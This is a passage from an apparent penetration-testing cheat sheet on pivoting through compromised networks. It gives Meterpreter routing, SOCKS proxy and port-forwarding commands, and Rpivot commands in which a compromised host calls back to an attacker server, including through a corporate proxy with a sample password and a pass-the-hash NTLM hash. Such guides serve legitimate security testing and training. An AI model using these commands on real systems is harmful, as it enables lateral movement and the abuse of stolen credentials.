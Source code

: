 run autoroute -s 192.168.5.1/24

To print routes

run autoroute -p

### Meterpreter - SOCKS Proxy

Now you can run other tools through Meterpreter using proxychains.

use auxiliary/server/socks4a

set SRVPORT 8080

run

### Forward single ports

Below will forward rdesktop sessions from localhost port 3389 to the target 192.168.5.9 through Meterpreter as a tunnel.

portfwd add -L 127.0.0.1 -l 3389 -r 192.168.5.9 -p 3389

Rpivot
------

[Rpivot](https://github.com/artkond/rpivot) is a great SOCKS proxy based pivot tool that works like SSH’s dynamic proxy -D option, but it works in the reverse order.

### Server (Attacker box)

python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0

### Client (Compromised box)

python client.py --server-ip &lt;ip&gt; --server-port 9443

The Server will now have a SOCKS proxy on port 1080 that will forward traffic through the [client].

### Through corporate proxy

Rpivot also works through corporate proxies.

python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \

--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e

### Passing the hash

If you prefer passing the hash, then you’re also in luck.

python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \

--ntlm-proxy-port 8080 --domain CORP --username jdoe \

--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE

AutoSSH
-------
